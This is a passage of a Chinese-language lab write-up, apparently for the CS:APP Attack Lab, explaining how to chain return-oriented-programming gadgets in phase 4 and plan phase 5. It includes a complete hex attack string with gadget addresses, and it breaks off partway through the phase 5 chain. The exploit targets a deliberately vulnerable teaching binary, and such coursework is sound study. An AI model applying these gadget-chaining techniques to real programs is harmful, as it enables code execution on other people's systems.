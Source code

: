 里面包含我们想要的58 90 c3  
//这是作者设计巧妙的结果，因为58 90 c3是一个数值的一部分，而我们把它用作指令  
查阅知道58 90 c3表示
```
popq %rax
nop
ret
```
所以可以让我们把栈中预先存放好的cookie值放入%rax中，接下来需要：movq %rax,%rdi或者movl %eax,%edi，对应字节码48 89 c7或者89 c7  
我们刚好在addval_273中找到  
> 4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax

48 89 c7 c3表示
```
movq %rax,%rdi
ret
```
或者我们使用89 c7 c3，表示
```
movl %eax,%edi
ret
```
这样就ok了，写出攻击字符串
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
//上面a2 19 40 00 00 00 00 00可以换成a3 19 40 00 00 00 00 00  
PASS

#### phase5
和phase3不一样，调试几遍就会发现，hexmatch中要比较的两个字符串的地址，其中一个是%rdi，另外一个是随机的  
但是，那个随机的地址指向的字符串是固定的，是“59b997fa”  
因此我们只能采取另一种方法：把“59b997fa”放在栈中，让%rdi保存此地址  
由于栈随机化，我们不能通过gdb来获取栈的地址  
只能通过mov %rsp,***  
搜索这样的指令，gadget正好有、且仅有这样一条：48 89 e0，即movq %rsp,%rax  
最好的情况是当前这个%rsp就指向“59b997fa”，但是如果我们这么做那么ret指令就会跳到35 39 62 39 39 37 66 61对应的地址，显然会segmentation fault  
只能把“59b997fa”放到别的地址，然后把我们得到的地址加上一个偏移量  
我们看到这个函数：
```c
long add_xy(long x, long y)
{
    return x+y;
}
```
正好可以实现我们的想法  
先movq %rax,%rdi  
下一步就是要让%rsi = offset  
我们可以巧妙地把offset存到栈中，像phase2那样使用popq取出来  
然后一步一步地把offset放到%rsi中（官方文档也提示了，由于offset不大，所以movq和movl没差）  
然后调用add_xy()  
然后movq %rax,%rdi  
然后调用touch3()  
就ok了  
攻击代码：
```
movq %rsp,%rax
movq %rax,%rdi
```